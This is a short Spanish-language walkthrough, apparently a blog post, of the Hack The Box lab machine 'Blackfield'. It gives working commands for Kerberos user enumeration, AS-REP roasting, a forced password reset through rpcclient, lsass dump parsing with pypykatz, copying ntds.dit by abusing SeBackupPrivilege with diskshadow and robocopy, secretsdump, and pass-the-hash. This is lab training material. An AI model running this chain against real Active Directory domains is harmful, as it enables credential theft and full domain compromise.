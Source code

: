 ```yaml
---
title: Blackfield
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Windows]
tags: [getnpusers, kerbrute, forcechangepassword, dmp, pypykatz, diskshadow, robocopy]     # TAG names should always be lowercase
---
```

En esta máquina usamos un poco de `GetGNPusers`, `Kerbrute`, `Bloodhound`

```shell
kerbrute userenum -d blackfield.local --dc 10.10.10.192 usuariosnuevos.txt
```

```shell
GetNPUsers.py -no-pass -u usuariosnuevos.txt blackfield.local/10.10.10.192
```

Con est obtuvimos una contraseña con privilegios de `ForceChangePassword` por lo que con `rpcclient` pudimos cambiar la contraseña de audit2020

```shell
rpcclient -U 'support' 10.10.10.192
Enter WORKGROUP\support's password:
rpcclient $> setuserinfo2 audit2020 23 'guero123$#'
```

Lo novedoso de esta máquina es encontrar archivos .DMP por lo que por medio de `pypykatz` podemos obtener información del dumpeo.

```shell 
file lsass.DMP
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type

pypykatz lsa minidump lsass.DMP
```

Con esto podemos obtener hashes NT para usuarios del dominio

## ESCALADA

Tenemos un privilegio de `SeBackupPrivilege`, si tratamos de dumpear los hashes NT no serviría porque son hashes a nivel local y necesitamos hashes de los usuarios del directorio activo

![imagen1](/assets/images/blackfield.png)

Para obtener los hashes del dominio, necesitamos el archivo `ntds.dit` que se encuentra en `C:\Windows\NTDS\ntds.dit`, no tenemos permisos de copiarlo, por lo que procedemos a 
usar el privilegio para crearnos una unidad lógica y traernos el archivo y copiarlo con `robocopy`, para hacerlo usamos `diskshadow`

![imagen1](/assets/images/blackfield2.png)

```powershell
C:\Windows\temp\privesc> diskshadow.exe /s C:\Windows\temp\privesc\prueba.txt
```

Con es logramos crear la unidad lógica 

![imagen1](/assets/images/blackfield4.png)

Cuando tengamos problemas con copy pero estemos en el grupo `SeBackupPrivilege` podemos usar `robocopy`

```powershell
robocopy /b z:\Windows\NTDS\ . ntds.dit
```

Nos lo descargamos a nuestra máquina y con `secretsdump` hacer un dump de toos lo hashes de todos los usuarios del directorio activo

```shell
secretsdump.py -system system -ntds ntds.dit LOCAL 
```

Usamos passthehash y estamos dentro.
